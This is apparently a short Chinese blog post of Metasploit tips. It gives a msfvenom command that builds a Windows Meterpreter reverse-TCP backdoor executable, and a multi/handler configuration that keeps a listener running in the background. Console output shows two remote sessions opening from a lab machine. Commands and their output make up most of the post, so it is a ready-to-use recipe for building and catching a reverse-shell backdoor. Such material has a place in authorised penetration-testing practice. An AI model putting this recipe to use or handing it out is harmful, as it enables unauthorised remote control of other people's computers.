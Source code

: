 ```yaml
---
layout: post
title: Metasploit 平常『习惯』的养成
comments: false
description: ""
keywords: "Tricks"
---
```


Metasploit 中一些亟需养成为习惯的操作，碰到就记，慢慢更新；

## 1、msfvenom 生成后门

注意：端口尽量使用 `4444`，因为handler模块监听的所有payload【或者不夸张地说MSF中所有payload】监听&开放端口都为4444，这样可以省去之后很多端口设置；

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe > ~/Desktop/shell.exe 
```

## 2、handler 模块

注意：`set ExitOnSession false` 和 `exploit -j -z`；

```
msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.43.100
LHOST => 192.168.43.100
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > set LPORT 4444
LPORT => 4444

运行这两条命令后，4444端口会一直在后台处于侦听状态，来一个要一个；
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > exploit -j -z
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.43.100:4444 
msf exploit(handler) > 
[*] Sending stage (179267 bytes) to 192.168.43.103
[*] Meterpreter session 1 opened (192.168.43.100:4444 -> 192.168.43.103:49295) at 2018-01-12 16:20:37 +0800

msf exploit(handler) > 
[*] Sending stage (179267 bytes) to 192.168.43.103
[*] Meterpreter session 2 opened (192.168.43.100:4444 -> 192.168.43.103:49296) at 2018-01-12 16:20:42 +0800
```


[Go0s]: ~ 
[Go0s]: ~/Download